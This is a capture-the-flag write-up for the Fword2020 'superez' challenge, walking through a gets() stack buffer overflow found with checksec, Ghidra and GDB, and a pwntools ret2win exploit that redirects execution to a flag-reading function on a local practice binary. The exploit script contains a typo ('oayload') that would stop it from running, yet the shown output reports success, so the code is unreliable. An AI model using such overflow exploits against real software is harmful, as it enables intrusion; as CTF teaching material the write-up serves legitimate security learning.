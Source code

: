 # Fword2020 Superez

Let's begin by inspecting the file, and its protections:

```
mfumega@pwn-boy:/pwn-boy$ file ./superez
./superez: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7ff6ed31455f3956d093833c02d0c0320253657e, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec ./superez
[*] '/pwn-boy/superez'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
We are dealing with a 64 bites binary, little endian, and from this output we know that:
- We can overwrite some sections of the Global Offset Table (GOT)
- The stack is Not-Executable. So we can't inject shellcode and run it on the stack

Let's run it. 

```
mfumega@pwn-boy:/pwn-boy$ ./superez
Welcome to FwordxKahla Platform, I'll miss Boruto episode because of the CTF :angry:
So solve me pleasee

Enter Your password to continue:
you typed 'AAAA', Good Bye!
```

Ok, after opening the binary with Ghidra, there is a main function. 

It calls a function `print_header()` that prints on screen the text we just saw. After initializing a few variables, we see the following code snipet:

```C
    printf("Enter Your password to continue: ");
    gets(local_a8);
    printf("you typed \'%s\', Good Bye!\n",local_a8);
```

It's capturing our input with the insecure function `gets()`, and it stores that on the "local_a8" variable.

From the first lines of the main function, where the variables are initialized, we know that "local_a8" is a 32 bytes variable. So, we have a stack buffer overflow here.

If we keep looking at the binary on Ghidra, we'll find  a function called `rasengan`, which is opening the "flag.txt" file. So, let's try to solve this challenge as a regular ret2win. Where we redirect the program flow to a desired address we of our choice. 

Let's run the binary on GDB, and take a look at how the stack is after `gets()`is called. 

```
     0x400ae6 <main+00ec>      call   0x4007c0 <gets@plt>
 →   0x400aeb <main+00f1>      lea    rax, [rbp-0xa0]
     0x400af2 <main+00f8>      mov    rsi, rax
     0x400af5 <main+00fb>      lea    rdi, [rip+0x1d6]        # 0x400cd2
     0x400afc <main+0102>      mov    eax, 0x0
     0x400b01 <main+0107>      call   0x400790 <printf@plt>
     0x400b06 <main+010c>      mov    rax, QWORD PTR [rip+0x2015a3]        # 0x6020b0 <stdin@@GLIBC_2.2.5>
────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "superez", stopped 0x400aeb in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400aeb → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/25gx $rsp
0x7fffffffdc70: 0x0000000041414141      0x0000000000000000
0x7fffffffdc80: 0x0000000000000000      0x00007ffff7fe48e0
0x7fffffffdc90: 0x0000000500004500      0x00008a73000000bf
0x7fffffffdca0: 0x010004157f1c0300      0x170f12001a131100
0x7fffffffdcb0: 0x0000000000000016      0x0000000000000000
0x7fffffffdcc0: 0x0000000f00001000      0x00007fff0000000f
0x7fffffffdcd0: 0x0000000500004500      0x00008a3b000000bf
0x7fffffffdce0: 0x010004157f1c0300      0x170f12001a131100
0x7fffffffdcf0: 0x0000000000000016      0x0000000000000000
0x7fffffffdd00: 0x0000000f00001000      0x000000000000000f
0x7fffffffdd10: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd20: 0x0000000000000000      0x00000000004009fa
0x7fffffffdd30: 0x00000001ffffde10
gef➤
```

We set a breakpoint at 0x400aeb. We run the program, and input 'AAAA'. We continue the execution, hit the breakpoint, and inspect the stack and we can see our input '41414141'. 

By looking at the stack this way, sometimes we may be able to recognize where the program will jump after, because well see an address that looks like the base one (0x400aeb in this case), but to be sure, we can just continue the execution up to the RET instruction on the function we are in.

```
 →   0x400b47 <main+014d>      ret
   ↳  0x7ffff7da8d90 <__libc_start_call_main+0080> mov    edi, eax
```
Here we see that the program is trying the jump to the address 0x7ffff7da8d90. And when we inspected the stack we saw this same value at 0x7fffffffdd18. 

```
gef➤  p *0x7fffffffdd18
$2 = 0xf7da8d90
```

So, if we overwrite that value with the address of the function `rasengan` which is
```
gef➤  p rasengan
$7 = {<text variable, no debug info>} 0x400917 <rasengan>
gef➤
```

We should get the flag. If we do some math, we can substract the address at where out input starts to the address where the return address is, and we can get the offset. `(0x7fffffffdd18 - 0x7fffffffdc70) = 168`

Let's build the exploit.

```python
#!/usr/bin/env python3
from pwn import *
p = process('/pwn-boy/superez', stdin=PTY, stdout=PTY)

p.recvuntil('continue: ')
offset = 168

payload = b'A' * offset 
oayload += p64(0x400918) 

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

We run it, and we got the flag!
```
mfumega@pwn-boy:/pwn-boy$ ./do.py
[+] Starting local process '/pwn-boy/superez': pid 479859
/pwn-boy/./do.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil('continue: ')
[+] Receiving all data: Done (319B)
[*] Process '/pwn-boy/superez' stopped with exit code -11 (SIGSEGV) (pid 479859)
you typed 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18 @', Good Bye!
local{mock_flag}
```



